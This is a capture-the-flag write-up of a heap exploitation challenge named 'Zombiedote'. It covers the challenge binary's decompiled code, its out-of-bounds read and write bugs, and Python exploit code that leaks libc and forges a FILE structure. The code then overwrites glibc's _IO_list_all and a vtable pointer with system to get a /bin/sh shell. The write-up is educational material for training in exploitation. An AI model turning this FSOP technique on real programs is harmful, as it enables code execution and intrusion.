









<font size="10">Zombiedote</font>

​        1<sup>st</sup> October 2023 / Document No. DYY.102.XX

​        Prepared By: 131LL

​        Challenge Author(s): 131LL

​        Difficulty: <font color=red>Hard</font>

​        Classification: Official

# Synopsis

Zombiedote is a hard pwnable that requires the attacker to leverage a single malloc call, an out of bounds read and two out of bounds writes in order into code execution in glibc 2.34.

## Skills Required

- Experience with heap challenges

## Skills Learned

- FSOP exploitation

# Enumeration

### Protections

First, let's run checksec against the given binary:



It's always useful to check whether Full RELRO is applied in heap challenges, since it's a great target for our exploits. Unfortunately we have Full RELRO here. Also, it is vital to know the glibc version we are working with.



Glibc 2.34 has no hooks, so we have no easy code execution through `__malloc_hook` and `__free_hook`.

### Program Interface

Checking out the binary's interface, we see a somewhat typical `heap` challenge menu:



No point in tinkering with it further, let's take a closer look and try to find bugs along the way.

### Disassembly ⛏️

This is the pseudocode generated by `Ghidra`:

`main`:
```C
void main(void)
{
  undefined4 uVar1;
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined4 local_28;
  undefined4 local_24;
  undefined4 local_20;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_24 = 0;
  local_20 = 0;
  do {
    while (uVar1 = menu(), false) {
switchD_00101942_caseD_0:
      error("Invalid option.");
    }
    switch(uVar1) {
    default:
      goto switchD_00101942_caseD_0;
    case 1:
      create(&local_38);
      break;
    case 2:
      insert(&local_38);
      break;
    case 3:
      delete();
      break;
    case 4:
      edit(&local_38);
      break;
    case 5:
      inspect(&local_38);
    }
  } while( true );
}
```

Nothing special here, but 5 local variables with only the first passed in as a pointer to all functions looks very much like its a struct in the original code.

`create`:
```C
void create(long *param_1)
{
  void *pvVar1;
  
  if (param_1[1] == 0) {
    printf("\nNumber of samples: ");
    __isoc99_scanf(&DAT_001021b6,param_1);
    pvVar1 = malloc(*param_1 << 3);
    param_1[1] = (long)pvVar1;
    if (param_1[1] == 0) {
      error("Failed to allocate memory for the log.");
                    /* WARNING: Subroutine does not return */
      exit(0x520);
    }
    success("Created a log.");
  }
  else {
    error("A log has already been created.");
  }
  return;
}
```

The `create()` function allows us to create a log of unlimited size with malloc, without filling it with values.

`insert`:
```C
void insert(ulong *param_1)
{
  long in_FS_OFFSET;
  ulong local_20;
  ulong local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1[1] == 0) {
    error("No log to insert into.");
  }
  else if (*(int *)(param_1 + 2) == 0) {
    printf("\nNumber of values tested: ");
    __isoc99_scanf(&DAT_001021b6,&local_20);
    if (*param_1 < local_20) {
      error("Invalid input.");
                    /* WARNING: Subroutine does not return */
      exit(0x520);
    }
    for (local_18 = 0; local_18 < local_20; local_18 = local_18 + 1) {
      printf("\nVirus concentration level in sample #%ld (%%): ",local_18);
      __isoc99_scanf(&DAT_0010227e,param_1[1] + local_18 * 8);
      puts("Value entered.");
    }
    success("Data inserted.");
    *(undefined4 *)(param_1 + 2) = 1;
  }
  else {
    error("Already inserted into log.");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

`insert()` lets us to enter as many values as we request into our log, as long as our request is not larger than the space we allocated earlier. If we notice the format specifier used, we see that the log chunk is an array of doubles. We can enter the values one by one.

`delete`:
```C
void delete(void)
{
  error("Operation not implemented yet. Exiting...");
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

Suprisingly, the delete function is not implemented yet, and just exits. This is where this challenge deviates from regular heaps challenges.

`edit`:
```C
void edit(long param_1)
{
  long in_FS_OFFSET;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (*(long *)(param_1 + 8) == 0) {
    error("No log to edit.");
  }
  else if (*(int *)(param_1 + 0x14) < 2) {
    local_18 = 0;
    printf("\nEnter sample number: ");
    __isoc99_scanf(&DAT_001021b6,&local_18);
    printf("\nVirus concentration level in sample #%ld (%%): ",local_18);
    __isoc99_scanf(&DAT_0010227e,*(long *)(param_1 + 8) + local_18 * 8);
    *(int *)(param_1 + 0x14) = *(int *)(param_1 + 0x14) + 1;
    success("Log edited.");
  }
  else {
    error("Maximum number of edits has been reached.");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Looking at the `else if` check, it seems like we have a maximum of 2 edits we can perform. The binary prompts us for the index of the array we wish to edit, and then we enter a new double value. This code contains a dangerous bug, although the index is an unsigned value, there is not upper limit check, and thus we can perform two out of bounds writes relative to our array's address.

`inspect`:
```C
void inspect(long param_1)
{
  long in_FS_OFFSET;
  long local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (*(long *)(param_1 + 8) == 0) {
    error("No log to inspect.");
  }
  else if (*(int *)(param_1 + 0x18) == 0) {
    local_18 = 0;
    printf("\nEnter sample number to inspect: ");
    __isoc99_scanf(&DAT_001021b6,&local_18);
    printf("\nVirus concentration level in sample #%ld (%%): %.16g\n",
           *(undefined8 *)(*(long *)(param_1 + 8) + local_18 * 8),local_18);
    *(undefined4 *)(param_1 + 0x18) = 1;
    success("Log inspected.");
  }
  else {
    error("The log has already been inspected.");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Lastly, the `inspect()` function. This allows for a single inspection of an index on our log array. Just like the `edit()` function, this features the exact same out of bounds bug, this time giving us a leak.

### Exploitation

The first part of the exploit comes from the chunk allocation itself, since we must make the most of our 1 value leak later on.

We must request a very big chunk in order to have mmap handle it, and have it placed before libc in memory. The offset from libc will be the same every time, given that we keep our chunk size request to malloc the same. 

Let's quickly demonstrate this by creating a chunk with a size of `0x1000000 bytes`.



Since the offset from libc stays the same, we can use the inspect functionality before we enter any values, in order to leak a libc address.

After calculating the libc base address, we can then calculate the address of our chunk as a result.

This is what we have so far for the exploit code:

```python
# Create
r.sendlineafter(b'>> ', b'1')
r.sendlineafter(b'): ', str(0x1000000//8).encode())

if REMOTE: off = 0x1003ff0  # docker offset (chunk to libc base when mmaped)
else: off = 0x1000ff0       # local offset
leak_target = off + libc.sym._IO_2_1_stdout_ + 0x8

# Inspect - libc leak
r.sendlineafter(b'>> ', b'5')
r.sendlineafter(b'inspect: ', str(leak_target//8).encode())
r.recvuntil(b'): ')
libc.address = double2val(float(r.recvline())) - 0x2197e3

chunk_addr = libc.address - off
print(f'heap chunk @ {hex(chunk_addr)}')
```

**NOTE: to get the correct chunk-to-libc offset for the remote instance, it is important to debug with gdb inside the docker container. The offset you calculate on your system may differ**

We leveraged the malloc call as well as the bug in `inspect()` to their full extent, and we can now take advantage of the `insert()` and `edit()` functions. Since this is `Glibc 2.34`, we need to perform a little `FSOP` magic.

`_IO_list_all` is an internal global linked list that keeps track of all the `FILE` structures that are currently open.

As you can see below, the first entry of the linked list is `_IO_2_1_stderr_`:



Let's also take a look at how a `_IO_FILE_plus` is structured, as well as an `_IO_FILE`:



The `vtable` field is important, as it points to a table of function pointers that implement various operations on the file stream.



So the vtable field of `_IO_2_1_stderr_` points to `__GI__IO_file_jumps`. This is a virtual function table that holds function pointers.

It's worth noting that we cannot craft a fake vtable ourselves, since the vtable field has to point to a specific region in memory that is not writtable. The code responsible came with libc-2.24:

```C
// libio/libioP.h:863

/* Perform vtable pointer validation. If validation fails, terminate the process. */                                                             
static inline const struct _IO_jump_t *                                         
IO_validate_vtable (const struct _IO_jump_t *vtable)                            
{                                                                               
  /* Fast path: The vtable pointer is within the __libc_IO_vtables              
     section.  */                                                               
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;                                      
  uintptr_t offset = ptr - __start___libc_IO_vtables;                           
  if (__glibc_unlikely (offset >= section_length))                              
    /* The vtable pointer is not in the expected section.  Use the              
       slow path, which will terminate the process if necessary.  */            
    _IO_vtable_check ();                                                        
  return vtable;                                                                
}
```

This means we have to be a bit more clever to pwn this.



We are interested in the `__overflow()` function, which gets called with the `FILE`'s structure pointer as an argument. The `__overflow()` gets triggered if we `exit()`.

The plan is to create a fake `FILE` struct in our chunk using `insert()`, add it to the linked list by overwriting `_IO_list_all`, and then overwrite `__GI__IO_file_jumps`'s `__overflow` function pointer with `system`. When `__overflow()` is triggered, system will get called with our chunk address - which we have calculated - as an argument, so we can write `"/bin/sh"` to the beginning of our chunk and get a shell! Let's see it in action.

```python
# populating (_flags), _IO_write_base, _IO_write_ptr, and *vtable*
# "/bin/sh\x00" @ chunk addr
fakeFILE = {
  0x00: b'/bin/sh\x00',
  0x20: 0x01,  # _IO_write_base -> must set ptr > base
  0x28: 0x02,  # _IO_write_ptr
  0xc4+20: __GI__IO_file_jumps # FILE vtable
}
fakeFILE = list(map(val2double, genlist(fakeFILE)))

# Insert - Place fake FILE on chunk
r.sendlineafter(b'>> ', b'2')
r.sendlineafter(b': ', str(len(fakeFILE)).encode())
for val in fakeFILE: r.sendlineafter(b'): ', val)
```

Notice that our fake `FILE` has to point to the `__GI__IO_file_jumps` vtable, in order for it to be valid.

The fake `FILE` is placed on the chunk, now wee need to perform our two overwrites:

```python
# __GI__IO_file_jumps' __overflow() ptr overwrite
# __GI__IO_file_jumps+0x18 -> system
# _IO_list_all -> chunk w/ fake FILE
writes = [(__GI__IO_file_jumps+0x18, system),
          (_IO_list_all, chunk_addr)]

# Offsets relative to chunk addr
writes = [(key-chunk_addr, val) for key, val in writes]

# Edit twice - GLibc overwrites
for w in writes:
  r.sendlineafter(b'>> ', b'4')
  r.sendlineafter(b': ', str(w[0]//8).encode()) # addr
  r.sendlineafter(b'): ', val2double(w[1]))  # overwrite value
```

The exploit is basically complete at this point; all there is left to do is call `exit()` to trigger our overwritten `__overflow()` function pointer. We will use delete() since that option just exited.

```python
# delete to exit and trigger exploit
# system("/bin/sh") call
r.sendlineafter(b'>> ', b'3')
r.recv() # cleanup
print('** SHELL **')
r.interactive()
```

## Solution

The exploit runs!

